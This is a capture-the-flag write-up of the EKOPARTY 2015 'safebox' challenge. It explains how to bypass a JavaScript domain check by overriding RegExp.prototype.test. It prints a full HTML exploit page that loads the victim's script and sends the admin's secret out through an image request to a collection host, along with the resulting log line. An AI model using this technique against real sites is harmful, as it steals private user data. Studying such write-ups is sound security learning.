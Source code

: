### Solved by Swappage

This 200 points challenge was a really nice javascript and client-side security related task.

The website was allowing users to register and upon login it was possible to write some text in a text area and save it for future displaying.

Another function available in the web site was the possibility to submit an URL for review by the site administrator (in a sort of whistleblowing-like platform).

The objective of the task was to steal the administrator secret textarea content.

By logging off and on again from a different browser, the text area content was preserved, which suggested that this information was saved server side somewhere, but where?

By inspecting the page source code it was possible to spot a *file.js* which happened to contain the following code:

```javascript
function getCookie(cname) {
    var name = cname + "=";
    var ca = document.cookie.split(';');
    for(var i=0; i<ca.length; i++) {
        var c = ca[i];
        while (c.charAt(0)==' ') c = c.substring(1);
        if (c.indexOf(name) == 0) return c.substring(name.length,c.length);
    }
    return "";
}

function setCookie(cname, cvalue, exdays) {
    var d = new Date();
    d.setTime(d.getTime() + (exdays*24*60*60*1000));
    var expires = "expires="+d.toUTCString();
    document.cookie = cname + "=" + cvalue + "; " + expires;
}


function isSubDomain(c) {
    var d = document.domain;
    var r = new RegExp(c+"$").test(d);
    return r;
}

function saveSecret() {
    var s = document.getElementById('secretbox').value;
    setCookie('secret', encrypt(s),3);
}

function decrypt(data) {
    if (data=="") return "";
    return window.atob(data);
}

function encrypt(data) {
    return window.btoa(data);
}

function checkDomain(c) {
    var d = document.domain;
    var r = false;
    if(d == c) {
        r = true;
    } else {
        r = isSubDomain(c);
    }
    return r;
}

if(checkDomain("challs.ctf.site"))  {
    document.getElementById('secretbox').value = decrypt('aGVsbG8gd29ybGQK');
} else {
    console.log("error");
}
```
A couple of interesting things are happening here:

- The javascript is responsible for populating the text area with our code
- before populating the text area it uses some functions to verify that the domain from which the script is included is *challs.ctf.site* or a subdomain.

How can this be exploited?

Considering what we just said, the javascript is dynamically generated by the web application depending on the account data; this means that as long as the user is logged in to the application, the javascript will be loaded with the informations about the form content populated accordingly.

At this point what we can do is submit a link to a web page that we control, which includes the javascript from the server.
This would load the content into the user browser, and since now the data is completely accessible by the client, we can manipulate it and possibly grab it.

There is only one problem to solve: the javascript checks the domain from which the javascript is loaded.

But let's look at the function that actually checks for the subdomain: it uses the function *regExp.test()*.

This function is global and not defined in the js, therefore, what we can do is override it with a prototype in our code and force it to return always true, effectively nullifying the check.

At this point, what happens is that when the admin visits our page, his personal javascript is loaded, with the informations related to the form content loaded within it, while our code will take care of grabbing the content of a text area we properly set up with the same name as the original one.

The following code is the exploit i used to grab the secret message (the flag).

```html
<!DOCTYPE html>
<html class="full">
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no">
        <meta name="description" content="EKOPARTY PRE-CTF 2015">
        <meta name="author" content="NULL Life">

        <!-- Latest compiled and minified CSS -->
        <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
        <link rel="stylesheet" href="/static/css/ctf.css" type="text/css"/>

        <link rel="shortcut icon" href="/static/img/favicon.ico">
        <link rel="stylesheet" type="text/css" href="//fonts.googleapis.com/css?family=Open+Sans" />

        <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.1.3/jquery.min.js"></script>
        <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script>

        <title>safebox</title>
    </head>
<body>

<script>
    RegExp.prototype.test = function(d) { return true; }
</script>

<textarea id=secretbox name=secretbox style="width: 70%; " rows=10> </textarea>

<script src=http://challs.ctf.site:10000/safebox/file.js></script>

<script>
    document.write('<img src="http://xxx.xxx.xxx.xxx/collect.gif?cookie=' + document.getElementById('secretbox').value + '" />')
</script>
</body>
</html>
```

and here is the result

    52.20.148.242 - - [14/Sep/2015:23:30:37 +0200] "GET /collect.gif?cookie=EKO%7Bclient_side_security_for_the_lulz%7D

